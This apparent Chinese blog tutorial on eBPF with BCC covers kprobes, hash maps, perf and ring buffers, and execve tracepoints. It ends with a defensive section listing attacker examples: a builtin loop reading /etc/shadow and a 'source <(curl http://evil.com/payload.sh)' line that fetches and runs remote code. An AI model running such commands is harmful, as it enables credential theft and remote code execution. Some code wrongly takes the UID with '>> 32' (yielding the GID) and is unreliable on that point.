

# Three、eBPF 的 Hello World

date: 2026.5.23

在事前我们需要先在终端简单验证一下 BCC ：

```bash
sudo python3 -c "from bcc import BPF; print('BCC OK')"
```


可以看到环境啊没有问题

## hello-world

然后咱创建一个 `hello.py` ，写入：

```python
#!/usr/bin/python3
from bcc import BPF

program = r"""
int hello(void *ctx) {
    bpf_trace_printk("Hello World!");
    return 0;
}
"""

b = BPF(text=program)
syscall = b.get_syscall_fnname("execve")
b.attach_kprobe(event=syscall, fn_name="hello")
b.trace_print()
```

记得赋予运行权限，由于 eBPF 非常强大，因此需要特殊权限才能使用它。权限会自动分配给 root 用户，因此最简单的方法是以 root 身份运行 eBPF 程序，或使用 `sudo` 命令。

稍等片刻或者开启另一个终端输入例如 `ls`、`ps`这类带有进程创建的命令，就会看到当前终端有hello world输出


## hello-openat

如果觉得上面的显示太慢的，我们可以换一个热闹一点的：

```python
#!/usr/bin/python3
from bcc import BPF

program = r"""
int hello(void *ctx) {
    bpf_trace_printk("Hello World from openat!");
    return 0;
}
"""

b = BPF(text=program)
# 换成 openat，这个系统调用更频繁
syscall = b.get_syscall_fnname("openat")
b.attach_kprobe(event=syscall, fn_name="hello")
print(f"Attached to {syscall}, waiting for events...")
b.trace_print()
```

## 拆解1：内核态C代码：hello（）

那么让我们来拆解一下这段代码到底是在干什么，为什么会输出hello world，而为什么hello-openat输出的频率会比hello-world高。

首先是 `program=` 后的内核态c代码：

```c
int hello(void *ctx) {
    bpf_trace_printk("Hello World!");
    return 0;
}
```

逻辑很简单啊，就是调用了一个类似输出的函数

- `bpf_trace_printk()`：
  这是 eBPF 的 **helper 函数**，专门用来往内核 trace 管道里写调试信息。

- 它不是我们熟悉的printf，因为：

  - eBPF 程序运行在内核态，不能随便阻塞或做重 I/O；

  - `bpf_trace_printk` 只是把字符串写到固定位置 `/sys/kernel/debug/tracing/trace_pipe`，由内核的 trace 基础设施统一管理。

这是“内核版 `printk` 的安全沙箱版”，只能写 trace_pipe，不能随便往串口/console 写，避免卡死内核。


## 拆解2：用户态Python：加载+挂钩+读输出

```python
b = BPF(text=program)              # 1. 编译 C 代码，创建 BPF 对象
syscall = b.get_syscall_fnname("execve")  # 2. 拿到本架构上 execve 的内核函数名
b.attach_kprobe(event=syscall, fn_name="hello")  # 3. 把 hello() 挂到 execve 的 kprobe
b.trace_print()                    # 4. 死循环读 trace_pipe，打印到屏幕
```

1. **`BPF(text=program)`**：
   BCC 在背后帮你做了一堆事：
   - 把 C 字符串编译成 eBPF 字节码；
   - 加载进内核；
   - 通过 bpf 系统调用创建程序和 map。
2. **`get_syscall_fnname("execve")`**：
   不同架构上，`execve` 的内核函数名可能不一样（比如 `__x64_sys_execve` 之类），BCC 帮你屏蔽这些差异。
3. **`attach_kprobe(event=syscall, fn_name="hello")`**：
   就是在内核函数 `sys_execve` 入口插一个“桩”：
   - 任何进程调用 `execve`；
   - 内核就会先跑你的 `hello()`；
   - 这就是“事件驱动 + kprobe 挂钩”的具体实现。
4. **`trace_print()`**：
   就是不断读 `/sys/kernel/debug/tracing/trace_pipe`，然后打印出来。

我们也可以单独开一个终端验证：

```
sudo cat /sys/kernel/debug/tracing/trace_pipe
```

会看到同样的 `Hello World!` 输出。

## 从 trace_printk 到 BPF_MAP：Hello World 也有“工程版”

借由资料翻译过来的原话：

>  对于简单的 “Hello World” 示例或基本的调试目的来说，一个单一的跟踪管道（trace pipe）位置是可以接受的，但也非常有限。输出格式几乎没有灵活性，并且只支持字符串输出，因此对于传递结构化信息并不是特别有用。或许最重要的是，整个（虚拟）机器上只有这样一个位置。如果同时运行多个 eBPF 程序，它们都会将跟踪输出写入同一个跟踪管道，这对操作人员来说可能会非常混乱。

所以引出了获取 eBPF 程序信息更好的方法：使用 `eBPF 映射` （ eBPF Map）。


## eBPF Maps

*映射（map）*是一种数据结构，可以从 eBPF 程序和用户空间访问。映射是将扩展 BPF 与其经典前身区分开来的一个重要特性。

在 Linux 的 [*uapi/linux/bpf.h* 文件](https://elixir.bootlin.com/linux/v5.15.86/source/include/uapi/linux/bpf.h#L878)中定义了各种类型的 BPF 映射，并且[内核文档](https://docs.kernel.org/bpf/maps.html)中也有一些关于它们的信息。一般来说，它们都是键-值存储。

下面是简单的mermaid图例：




### 哈希表映射（Hash Table Map）

我们把内核态C代码写成如下样式：

```bash
BPF_HASH(counter_table);  // 1. 定义一个哈希表 map

int hello(void *ctx) {
    u64 uid;
    u64 counter = 0;
    u64 *p;

    uid = bpf_get_current_uid_gid() & 0xFFFFFFFF;  // 2. 获取 UID
    p = counter_table.lookup(&uid);  // 3. 在 map 中查这个 UID 的计数
    if (p != 0) {
        counter = *p;
    }
    counter++;  // 4. 计数 +1
    counter_table.update(&uid, &counter);  // 5. 写回 map
    return 0;
}
```

Python 端则每 2 秒轮询一次这个 map，打印出每个 UID 执行 `execve` 的次数。这就像在内核里维护一个 `uid -> count` 的字典，用户态定时来拉数据。

```python
while True:  # 1
    sleep(2)
    s = ""
    for k,v in b["counter_table"].items():  # 2
        s += f"ID {k.value}: {v.value}\t"
    print(s)
```

所以完整的代码应该如下：

```python
#!/usr/bin/python3
from bcc import BPF
from time import sleep    # ← 别忘了这个 import

program = r"""
BPF_HASH(counter_table);  // 1. 定义一个哈希表 map

int hello(void *ctx) {
    u64 uid;
    u64 counter = 0;
    u64 *p;

    uid = bpf_get_current_uid_gid() & 0xFFFFFFFF;  // 2. 获取 UID
    p = counter_table.lookup(&uid);  // 3. 在 map 中查这个 UID 的计数
    if (p != 0) {
        counter = *p;
    }
    counter++;  // 4. 计数 +1
    counter_table.update(&uid, &counter);  // 5. 写回 map
    return 0;
}
"""

b = BPF(text=program)

syscall = b.get_syscall_fnname("execve")
b.attach_kprobe(event=syscall, fn_name="hello")

while True:  # 1
    sleep(2)
    s = ""
    for k,v in b["counter_table"].items():  # 2
        s += f"ID {k.value}: {v.value}\t"
    print(s)
```

下面是我自己运行代码的结果：

```text
ID 1000: 8        ← 第一次读取：UID 1000 已经调用了 8 次 execve
ID 1000: 14       ← 第二次读取（2秒后）：已经 14 次了，说明这 2 秒内又执行了 6 个命令
ID 1000: 14       ← 还是 14，说明这 2 秒内没有新的 execve
ID 1000: 15       ← 又多了一次
ID 1000: 15
ID 1000: 15       ← 连续三次都是 15，说明那 6 秒内很安静
ID 1000: 16       
ID 1000: 16
ID 1000: 16
ID 1000: 16  ID 0: 1   ← 出现了 UID 0！root 用户
ID 1000: 16  ID 0: 1
ID 1000: 16  ID 0: 1
ID 1000: 17  ID 0: 1    ← UID 1000 又多了一次
ID 1000: 17  ID 0: 2    ← root 也多了一次
ID 1000: 18  ID 0: 2    ← UID 1000 又多了一次
ID 1000: 19  ID 0: 8    ← root计数直接+6
^C                           ← 按了 Ctrl+C 退出
```

其中第1、2行的计数跳跃我推测为打开了一个新的终端，之后我分别执行了

```
ls         3-4行计数+1
sudo ls    6-10行，普通用户发起sudo请求+1，同时引入root用户
sudo ls    13-14行，再次验证sudo的免密请求存在时间差
ls         14-15行，普通用户计数+1
sudo su    15-16行，直接将当前终端升级为root会触发更多的execve
```

1. `sudo su` 会让 UID 0 飙升

   `sudo su` 比普通 `sudo ls` 触发的 root execve 更多：

   ```
   sudo su 的完整流程：
   
   1. bash (UID 1000) → execve("sudo")      → UID 1000 +1
   2. sudo (UID 0)    → PAM 认证
   3. sudo (UID 0)    → execve("su")          → UID 0 +1
   4. su (UID 0)      → execve("/bin/bash")   → UID 0 +1  ← 新的 root shell
   5. root bash 启动 → .bashrc / .profile     → UID 0 +N  ← 各种初始化命令
   ```

   一次 `sudo su` 至少让 UID 0 +3，加上 .bashrc 里的命令可能 +5~8。

2. 而为什么初始计数并不是从0开始呢？

   eBPF 探针挂钩的是**整个系统**的 execve，不只是当前终端。从 `attach_kprobe` 成功到第一次 `sleep(2) + print` 之间，系统里所有用户、所有终端、所有后台服务的 execve 都被计数了。
   而最大的贡献者，其实是我们**自己启动这个 eBPF 程序的过程**：

   ```text
   敲下 sudo python3 hello-map.py 后，发生了什么：
   
   1. bash (UID 1000) → fork + execve("sudo")       +1 (UID 1000)
   2. sudo (UID 0)     → fork + execve("python3")    +1 (UID 0)
   3. python3 启动 → import BPF → 触发 BCC 编译
   4. BCC 调用 clang 编译 eBPF C 代码
      - clang 可能 fork + execve 自身的子进程         +N
   5. eBPF 程序加载进内核 → attach_kprobe 成功
      │
      └─→ 从此刻开始计数
   6. sleep(2) → 第一次 print
      │
      └─→ 这 2 秒内又有几个后台 execve               +N
   ```

   第 3-4 步的 BCC 编译过程会 spawn 多个子进程，每个都涉及 `execve`。这就是为什么还没敲任何命令，计数就已经到 8 了。

   那为什么之后计数涨得这么慢呢？因为 `execve` 本身就是一个**低频系统调用**——只有在**启动新程序**时才会调用。系统里大部分后台进程是长期运行的守护进程，启动完就蹲在那里了，不会再频繁 execve。所以程序启动的"一瞬间"是 execve 密集期，之后就进入稳态，计数只在你主动敲命令时才会 +1。

 **结论：计数器是累积的，从程序加载 eBPF 探针的那一刻就开始计数了，不是从第一次 print 开始。初始的跳跃主要来自 BCC 编译过程本身产生的 execve。**


### Perf 和环形缓冲区映射（Ring Buffer Maps）

Perf Buffer 与 Ring Buffer：从"统计"到"事件流"

为什么 eBPF_Hash 还不够用？

其实我们刚刚已经做过实验了，eBPF_Hash 做的是聚合统计，

```text
ID 1000: 8        ← 只知道"UID 1000 执行了 8 次 execve"
ID 1000: 16  ID 0: 2   ← 只知道"root 执行了 2 次"
```

但是更多的时候，我们真正需要的是每一条事件的详细信息：

```text
时间=1716445200 PID=1234 UID=0 COMM=runc  ← 谁在什么时候干了什么
时间=1716445201 PID=5678 UID=0 COMM=mount ← 而不是"root 总共干了 2 次"
```


| 维度     | BPF_HASH（统计版）              | Perf/Ring Buffer（事件版）      |
| -------- | ------------------------------- | ------------------------------- |
| 传什么   | 聚合后的计数                    | 每次事件的完整结构体            |
| 何时传   | 用户态主动轮询（每 2 秒读一次） | 内核主动推送（每次触发都推）    |
| 信息量   | 只有一个数字                    | PID、UID、时间戳、进程名、参数… |
| 适合场景 | 统计分析                        | **实时告警、安全检测**          |


#### Perf Buffer：BPF_PERF_OUTPUT

##### 1st. 核心思路

```
内核态                              用户态
┌──────────┐                    ┌──────────────┐
│ hello()  │  perf_submit()     │ 回调函数      │
│ 填充结构体 ├──────────────────→│ print_event() │
│ 推送事件  │   Perf Buffer      │ 立即处理      │
└──────────┘   (per-CPU)        └──────────────┘
```

每触发一次 `execve`，内核就把一条 `struct data_t` 推到 perf buffer，用户态通过回调函数**逐条接收**，不再需要轮询。


##### 2nd. 完整代码：hello-perf

```python
#!/usr/bin/python3
from bcc import BPF

program = r"""
#include <uapi/linux/ptrace.h>
#include <linux/sched.h>

// 1. 定义传给用户态的结构体
struct data_t {
    u32 pid;                // 进程 ID
    u32 uid;                // 用户 ID
    u64 ts;                 // 时间戳（纳秒，自系统启动）
    char comm[TASK_COMM_LEN]; // 进程名（16字节）
};

// 2. 声明 perf buffer
BPF_PERF_OUTPUT(events);

int hello(struct pt_regs *ctx) {
    struct data_t data = {};

    // 3. 填充字段
    data.pid = bpf_get_current_pid_tgid() >> 32;
    data.uid = bpf_get_current_uid_gid() & 0xFFFFFFFF;
    data.ts  = bpf_ktime_get_ns();
    bpf_get_current_comm(&data.comm, sizeof(data.comm));

    // 4. 推送事件
    events.perf_submit(ctx, &data, sizeof(data));
    return 0;
}
"""

b = BPF(text=program)
syscall = b.get_syscall_fnname("execve")
b.attach_kprobe(event=syscall, fn_name="hello")

# 5. 用户态回调：逐条处理
def print_event(cpu, data, size):
    event = b["events"].event(data)
    print(f"PID={event.pid:6d} UID={event.uid:5d} COMM={event.comm.decode():16s} TS={event.ts}")

# 6. 打开 perf buffer，注册回调
b["events"].open_perf_buffer(print_event)

print("Tracing execve via perf buffer, hit Ctrl-C to stop.")
while True:
    try:
        b.perf_buffer_poll()
    except KeyboardInterrupt:
        exit()
```


##### 3rd. 运行结果

```bash
Tracing execve via perf buffer, hit Ctrl-C to stop.
PID=  4571 UID= 1000 COMM=bash             TS=8483481047509
PID=  4572 UID= 1000 COMM=bash             TS=8492034938577
PID=  4577 UID=    0 COMM=sudo             TS=8503847913685
PID=  4578 UID=    0 COMM=su               TS=8503858666983
PID=  4579 UID=    0 COMM=bash             TS=8503861829165
PID=  4580 UID=    0 COMM=lesspipe         TS=8503863386857
PID=  4582 UID=    0 COMM=lesspipe         TS=8503865775990
PID=  4583 UID=    0 COMM=bash             TS=8503868344882
PID=  4584 UID=    0 COMM=bash             TS=8507804202204
PID=  4585 UID= 1000 COMM=bash             TS=8514915000276
```

下面是我在另一个终端执行的对应操作：

```bash
ls        # 第2行
sudo su   # 第3-9行
ls        # 第10行
ls        # 第11行
```

欸，这里我们可以发现，使用 `sudo su` 这一条命令的时候确实存在6条进程的调用，也进一步印证了前面我们的猜想。

但是为什么 ls 的 `COMM` 参数都只是bash呢？为什么 exit 没用出现新的行呢？

这一步我也没想明白，于是我去询问了一下AI，

这部分在本篇文章后面的进阶部分会讲到。


##### 4st. 代码拆解

内核态 C 代码：

```c
// 1. 结构体：和用户态的"契约"
struct data_t {
    u32 pid;
    u32 uid;
    u64 ts;
    char comm[TASK_COMM_LEN];
};
```

这是内核态和用户态之间的"数据合同"。内核端填充什么字段，用户端就按同样的布局解析。`TASK_COMM_LEN` 是内核定义的宏，值为 16。

```c
// 2. 声明 perf buffer
BPF_PERF_OUTPUT(events);
```

BCC 宏，展开后会创建一个 `BPF_MAP_TYPE_PERF_EVENT_ARRAY` 类型的 map。名字 `events` 是你自己取的，用户态用 `b["events"]` 访问。

```c
// 3. 填充字段
data.pid = bpf_get_current_pid_tgid() >> 32;
```

`bpf_get_current_pid_tgid()` 返回一个 u64：高 32 位是 tgid（即用户态看到的 PID），低 32 位是 tid（线程 ID）。右移 32 位拿到 PID。

```c
data.uid = bpf_get_current_uid_gid() & 0xFFFFFFFF;
```

之前 hello-map.py 里用的是 `& 0xFFFFFFFF`一样，用 `>> 32` 取 UID。

```c
// 4. 推送事件
events.perf_submit(ctx, &data, sizeof(data));
```

把 `data` 结构体拷贝到 perf buffer。`ctx` 是 kprobe 传入的上下文，必须有。


用户态 Python 代码：

```python
# 5. 回调函数
def print_event(cpu, data, size):
    event = b["events"].event(data)
```

三个参数：`cpu`（事件来自哪个 CPU）、`data`（原始字节流）、`size`（数据大小）。
`b["events"].event(data)` 会按照内核态 `struct data_t` 的布局自动反序列化。

```python
# 6. 注册回调 + 轮询
b["events"].open_perf_buffer(print_event)
while True:
    b.perf_buffer_poll()
```

`open_perf_buffer` 把回调函数绑定到 perf buffer。
`perf_buffer_poll` 阻塞等待事件，有事件就调回调，没有就等着。


#### Ring Buffer：BPF_RINGBUF_OUTPUT


Perf Buffer 有个根本性问题：**每个 CPU 各自一个缓冲区**。

```text
Perf Buffer 结构：
┌──────────┐  ┌──────────┐  ┌──────────┐
│ CPU 0    │  │ CPU 1    │  │ CPU 2    │
│ buffer   │  │ buffer   │  │ buffer   │
└──────────┘  └──────────┘  └──────────┘
    ↑ 各自独立，事件可能乱序
```

这意味着：

- CPU 0 上的事件 A 和 CPU 1 上的事件 B，谁先谁后？不确定。
- 如果 CPU 0 很忙但 CPU 1 很闲，CPU 0 的 buffer 可能溢出丢事件，CPU 1 的 buffer 却很空，**内存浪费**。

Ring Buffer 的改进：**所有 CPU 共享一个环形缓冲区**。

```text
Ring Buffer 结构：
┌──────────────────────────────────────┐
│  CPU 0  │  CPU 1  │  CPU 2  │  ...  │
│  事件A  │  事件B  │  事件C  │       │
└──────────────────────────────────────┘
     ↑ 全局有序，内存共享，不浪费
```

##### 1st. 完整代码 hello-ring

```python
#!/usr/bin/python3
from bcc import BPF

program = r"""
#include <uapi/linux/ptrace.h>
#include <linux/sched.h>

struct data_t {
    u32 pid;
    u32 uid;
    u64 ts;
    char comm[TASK_COMM_LEN];
};

// 声明 ring buffer，1 << 8 = 256 页 ≈ 1MB
BPF_RINGBUF_OUTPUT(events, 8);

int hello(struct pt_regs *ctx) {
    struct data_t data = {};
    data.pid = bpf_get_current_pid_tgid() >> 32;
    data.uid = bpf_get_current_uid_gid() >> 32;
    data.ts  = bpf_ktime_get_ns();
    bpf_get_current_comm(&data.comm, sizeof(data.comm));

    events.ringbuf_output(&data, sizeof(data), 0);
    return 0;
}
"""

b = BPF(text=program)
syscall = b.get_syscall_fnname("execve")
b.attach_kprobe(event=syscall, fn_name="hello")

def print_event(ctx, data, size):
    event = b["events"].event(data)
    print(f"PID={event.pid:6d} UID={event.uid:5d} COMM={event.comm.decode():16s} TS={event.ts}")

b["events"].open_ring_buffer(print_event)

print("Tracing execve via ring buffer, hit Ctrl-C to stop.")
while True:
    try:
        b.ring_buffer_poll()
    except KeyboardInterrupt:
        exit()
```

当然，如果在刚刚直接去进阶部分看的同学也可以把这个代码加上被执行的程序路径，改动也和下表一样。

执行结果就不过多描述了，做了的话会发现和上面的 perf 显示一致。


##### 2nd. 对比 Perf Buffer：改动只有 4 处


| Perf Buffer 版                                  | Ring Buffer 版                                   | 说明                                        |
| ----------------------------------------------- | ------------------------------------------------ | ------------------------------------------- |
| `BPF_PERF_OUTPUT(events);`                      | `BPF_RINGBUF_OUTPUT(events, 8);`                 | 声明方式不同，8 是 buffer 大小（2^8 页）    |
| `events.perf_submit(ctx, &data, sizeof(data));` | `events.ringbuf_output(&data, sizeof(data), 0);` | 不需要传 ctx，多了一个 flags 参数           |
| `def print_event(cpu, data, size):`             | `def print_event(ctx, data, size):`              | 第一个参数名变了，含义是 ring buffer 上下文 |
| `b["events"].open_perf_buffer(print_event)`     | `b["events"].open_ring_buffer(print_event)`      | 注册方式不同                                |
| `b.perf_buffer_poll()`                          | `b.ring_buffer_poll()`                           | 轮询方式不同                                |

##### 3rd. ringbuf_output 的第三个参数

```
events.ringbuf_output(&data, sizeof(data), 0);
//                                      ↑ flags
// 0 = 正常提交
// BPF_RB_FORCE_WAKEUP = 立即唤醒用户态消费（低延迟场景）
```

默认情况下，内核会**批量聚合**事件再通知用户态（减少系统调用次数，提高吞吐）。如果你需要最低延迟（比如安全告警场景），可以用 `BPF_RB_FORCE_WAKEUP` 强制立即唤醒。


#### Perf Buffer vs Ring Buffer：完整对比


| 维度           | Perf Buffer                             | Ring Buffer                             |
| -------------- | --------------------------------------- | --------------------------------------- |
| 内核版本要求   | 4.4+                                    | **5.8+**                                |
| 缓冲区结构     | 每 CPU 各一个                           | **所有 CPU 共享一个**                   |
| 事件顺序       | 跨 CPU 可能乱序                         | **全局有序**                            |
| 内存效率       | per-CPU 预留，可能浪费                  | **按需使用，更节省**                    |
| 丢事件时的通知 | 无                                      | **有（可检测数据丢失）**                |
| BCC 内核态 API | `perf_submit(ctx, &data, size)`         | `ringbuf_output(&data, size, flags)`    |
| BCC 用户态 API | `open_perf_buffer` + `perf_buffer_poll` | `open_ring_buffer` + `ring_buffer_poll` |
| 回调参数       | `(cpu, data, size)`                     | `(ctx, data, size)`                     |
| 推荐度         | 老内核兼容                              | **新项目首选**                          |


## 进阶：如何获取被执行的命令名？以及为何没有 exit ？

它说：

> 核心原因：`bpf_get_current_comm()` 获取的是**调用者**的名字，不是**被调用**的命令

当我们在终端里敲下 `ls` 时，实际发生的流程是：

```text
1. bash 进程读取你的输入 "ls"
2. bash 调用 fork()，创建一个子进程（子进程此时依然是 bash）
3. 子进程调用 execve("/bin/ls")
   ↑ 注意！kprobe 就挂在这个 execve 的入口
   此时，这个子进程的 comm 依然是 "bash"！
4. execve 执行成功，子进程的内存镜像被替换成 /bin/ls，comm 变成 "ls"
   ↑ 但 eBPF 探针在步骤 3 就已经触发并返回了，根本没走到这一步
```

所以，我们看到的 `COMM=bash`，意思是 **“是 bash 发起的 execve”**，而不是 “bash 被执行了”。

因此，如果只看 `COMM`，我们只能知道"哪个进程发起了动作"，但不知道"它想执行什么程序"。

我们需要从 `execve` 的参数里提取出文件名。最稳定的方法是用 **tracepoint** 而不是 kprobe，因为 tracepoint 的参数格式是固定的。

修改我们的 `hello-perf.py` ，或者我们也可以再创建一个 `hello-perf-plus。py` ：

### 1. 内核态 C 代码：增加 filename 字段

```c
#include <uapi/linux/ptrace.h>
#include <linux/sched.h>

struct data_t {
    u32 pid;
    u32 uid;
    u64 ts;
    char comm[16];       // 调用者进程名
    char filename[128];  // 新增：被执行的程序路径
};

BPF_PERF_OUTPUT(events);

// 改用 tracepoint，可以直接访问系统调用参数
TRACEPOINT_PROBE(syscalls, sys_enter_execve) {
    struct data_t data = {};

    data.pid = bpf_get_current_pid_tgid() >> 32;
    data.uid = bpf_get_current_uid_gid() >> 32;
    data.ts  = bpf_ktime_get_ns();
    bpf_get_current_comm(&data.comm, sizeof(data.comm));

    // 关键！从 tracepoint 参数中读取 filename
    // args 是 tracepoint 给的参数结构体，包含 execve 的所有入参
    bpf_probe_read_user_str(&data.filename, sizeof(data.filename), (void *)args->filename);

    events.perf_submit(args, &data, sizeof(data));
    return 0;
}
```

### 2. 用户态 Python 代码：打印 filename

```python
#!/usr/bin/python3
from bcc import BPF

program = r"""
// ... 上面的 C 代码 ...
"""

b = BPF(text=program)
# 注意：tracepoint 不需要手动 attach！
# BCC 看到 TRACEPOINT_PROBE 宏会自动帮你挂好

def print_event(cpu, data, size):
    event = b["events"].event(data)
    print(f"PID={event.pid:6d} UID={event.uid:5d} "
          f"CALLER={event.comm.decode():16s} → "
          f"CMD={event.filename.decode()}")

b["events"].open_perf_buffer(print_event)

print("Tracing execve with filename, hit Ctrl-C to stop.")
while True:
    try:
        b.perf_buffer_poll()
    except KeyboardInterrupt:
        exit()
```

### 3. 运行结果

```bash
Tracing execve with filename, hit Ctrl-C to stop.
PID=  4762 UID= 1000 CALLER=bash             → CMD=/usr/bin/ls
PID=  4766 UID= 1000 CALLER=bash             → CMD=/usr/bin/sudo
PID=  4768 UID=    0 CALLER=sudo             → CMD=/usr/bin/su
PID=  4769 UID=    0 CALLER=su               → CMD=/bin/bash
PID=  4770 UID=    0 CALLER=bash             → CMD=/usr/bin/lesspipe
PID=  4771 UID=    0 CALLER=lesspipe         → CMD=/usr/bin/basename
PID=  4773 UID=    0 CALLER=lesspipe         → CMD=/usr/bin/dirname
PID=  4774 UID=    0 CALLER=bash             → CMD=/usr/bin/dircolors
PID=  4775 UID=    0 CALLER=bash             → CMD=/usr/bin/ls
PID=  4776 UID= 1000 CALLER=bash             → CMD=/usr/bin/ls
```

下面是另一个终端执行的命令：

```bash
ls
sudo su
ls
exit
ls
```

发现我们的 exit **确实没有 execve **，为什么呢？

因为 `exit` 是 bash 的**内建命令（builtin）**，不是外部程序。

```bash
输入 ls 时：
  bash → fork() → 子进程 execve("/usr/bin/ls")  ← 触发了 eBPF 探针

输入 exit 时：
  bash → 直接调用 exit() 系统调用退出自己  ← 没有 execve，探针无感
```

验证：哪些命令是内建的

```bash
# 在 bash 里查看
type ls
# ls is /usr/bin/ls          ← 外部命令，有独立可执行文件

type exit
# exit is a shell builtin    ← 内建命令，bash 自己实现的

type cd
# cd is a shell builtin      ← 也是内建！

type echo
# echo is a shell builtin    ← 也是内建！（虽然 /usr/bin/echo 也存在）
```


### 安全检测

这说明如果我们需要做到安全，**只监控 `execve` 是不够的！**

攻击者可以完全不触发 `execve`，纯用内建命令完成很多操作：

```
# 不触发任何 execve 的恶意操作链：
cd /etc                    # 内建，无 execve
while read line; do        # 内建，无 execve
  echo "$line"             # 内建，无 execve
done < shadow              # 重定向读取敏感文件
```

更危险的是，如果攻击者拿到的是一个**受限 shell**，或者用 `source` 加载恶意脚本：

```
# 下载恶意脚本并直接在当前 shell 执行
source <(curl http://evil.com/payload.sh)
# 或者
. /tmp/malicious.sh
```

**全程零 execve，探针什么也看不到。**


这就是计划里要搞多探针的原因：

```
┌─────────────────────────────────────────────────┐
│              攻击行为检测覆盖率                    │
├─────────────┬───────────────────────────────────┤
│ execve      │ 捕获：启动新程序                    │
│             │ 漏掉：shell 内建命令                │
├─────────────┼───────────────────────────────────┤
│ openat      │ 捕获：打开文件（包括内建命令读取）    │
│             │ 漏掉：纯内存操作                    │
├─────────────┼───────────────────────────────────┤
│ connect     │ 捕获：发起网络连接                  │
│             │ 漏掉：已建立连接上的数据传输          │
├─────────────┼───────────────────────────────────┤
│ mount       │ 捕获：挂载文件系统                  │
│             │ 漏掉：其他特权操作                  │
├─────────────┼───────────────────────────────────┤
│ ptrace      │ 捕获：进程注入                      │
│             │ 漏掉：其他注入方式                  │
└─────────────┴───────────────────────────────────┘

结论：单一探针永远不够，必须组合使用
```

#实际例子：`cd /etc && cat shadow` 的完整检测

```
攻击者输入：cd /etc && cat shadow

execve 探针看到：
  bash → execve("/usr/bin/cat")     ✅ 捕获到 cat 执行
  但不知道它在读什么文件

openat 探针看到：
  cat → openat("/etc/shadow")       ✅ 捕获到敏感文件访问
  但不知道是谁发起的

组合起来：
  bash → cat → /etc/shadow          ✅ 完整攻击链
```